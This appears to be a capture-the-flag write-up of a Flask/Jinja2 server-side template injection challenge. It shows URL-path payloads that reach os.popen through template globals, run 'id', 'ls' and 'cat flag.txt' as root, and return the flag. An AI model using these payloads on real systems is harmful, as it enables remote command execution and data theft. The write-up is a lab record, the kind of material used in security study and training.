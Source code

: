 -> SSTI flask jinja2

Route: `GET /`
```html
Site still under construction
Proudly powered by Flask/Jinja2
```

Route: `GET /a{{7*7}}`
```
Error 404
The page 'a49' could not be found
```

Route: `GET /a{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`
```
Error 404
The page 'auid=0(root) gid=0(root) groups=0(root) ' could not be found
```

Route: `GET /a{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}`
```
Error 404
The page 'abin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var ' could not be found
```

Route: `GET /a{{request.application.__globals__.__builtins__.__import__('os').popen('cat%20flag.txt').read()}}`
```
The page 'aHTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!} ' could not be found
```
